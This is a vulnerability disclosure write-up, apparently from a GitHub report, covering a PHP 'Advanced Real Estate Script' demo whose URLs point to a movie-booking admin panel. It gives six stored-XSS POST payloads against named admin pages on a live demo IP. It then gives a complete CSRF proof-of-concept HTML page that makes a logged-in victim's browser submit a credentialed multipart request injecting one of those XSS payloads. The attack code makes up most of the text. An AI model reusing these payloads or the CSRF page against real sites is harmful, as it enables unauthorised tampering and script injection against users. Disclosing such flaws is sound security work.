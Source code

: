 ### Advanced Real Estate Script   XSS/CSRF

Well, when I pentest the official demo site of Advanced Real Estate Script, I found some vulnerabilities here.


#### XSS:

There're some stored-xss in this system, for example:

##### XSS1


```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/sitesettings.php
```

POST para:
```
------WebKitFormBoundaryzlMIDdRcppEeHLfc
Content-Disposition: form-data; name="keyword"

Movie Ticket booking'"><svg/onload=alert(/sxss/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss1.png)

##### XSS2

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/manageownerlist.php?edit&usrid=51
```
POST para:
```
------WebKitFormBoundaryl1hkCrSGo6aWqBcA
Content-Disposition: form-data; name="contact"

9500702882'"><svg/onload=alert(/sxss2/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss2.png)

##### XSS3

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/eventlist.php?edit&eventid=45
```

POST para:
```
------WebKitFormBoundaryMGILA7nm2cy2SRx1
Content-Disposition: form-data; name="cast"

sivakarthikeyan'"><svg/onload=prompt(/sxss3/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss3.png)

##### XSS4

POST para:
```
------WebKitFormBoundarybSFVeH6LrfH6zOSG
Content-Disposition: form-data; name="moviename"

Tamizhan da Ennalum'"><svg/onload=alert(/sxss4/)><'"


```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss4.png)


##### XSS5

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/snacks_edit.php?sid=8
```


POST para:
```
------WebKitFormBoundaryfHHKnTbHD7iASd0w
Content-Disposition: form-data; name="snacks_name"

fsdfd'"><svg/onload=prompt(/sxss6/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss5.png)



##### XSS6

```
http://198.38.86.159/~dineshkumarwork/demo/movie/admin/newsedit.php?newsid=7
```

POST para:
```
------WebKitFormBoundaryYD6kA6UVdLUiuSCp
Content-Disposition: form-data; name="newstitle"

News1'"><svg/onload=alert(/sxss7/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Advanced-Real-Estate-Script/sxss6.png)


#### CSRF:

Because of no protection here, we can use csrf to attack users, or change something sensitively into the panel directly.
By the way ,I just found no protection in the user panel here.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/198.38.86.159\/~dineshkumarwork\/demo\/movie\/admin\/movieedit.php?movieid=134", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundarybSFVeH6LrfH6zOSG");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"moviename\"\r\n" + 
          "\r\n" + 
          "Tamizhan da Ennalum\'\"\x3e\x3csvg/onload=alert(/sxss4/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"mov_id\"\r\n" + 
          "\r\n" + 
          "134\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"mov_img\"\r\n" + 
          "\r\n" + 
          "movie06122017-688.jpg\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"ban_img\"\r\n" + 
          "\r\n" + 
          "banner06122017-395.jpg\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"language\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"actor\"\r\n" + 
          "\r\n" + 
          "vaishali, vaisnavi,\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"musicdirector\"\r\n" + 
          "\r\n" + 
          "Manimaran\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"director\"\r\n" + 
          "\r\n" + 
          "Vignesh\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"producer\"\r\n" + 
          "\r\n" + 
          "Winston\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"runtime\"\r\n" + 
          "\r\n" + 
          "2\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"runmints\"\r\n" + 
          "\r\n" + 
          "6\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"trailerlink\"\r\n" + 
          "\r\n" + 
          "www.phpscriptsmall.com\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"trailerlink2\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"description\"\r\n" + 
          "\r\n" + 
          "\x3cp\x3efds\x3c/p\x3e\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"rating\"\r\n" + 
          "\r\n" + 
          "U\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"movieimage\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"bannerimage\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"release_date\"\r\n" + 
          "\r\n" + 
          "2017-12-06\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"end_date\"\r\n" + 
          "\r\n" + 
          "2017-12-09\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "Submit\r\n" + 
          "------WebKitFormBoundarybSFVeH6LrfH6zOSG--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>



```

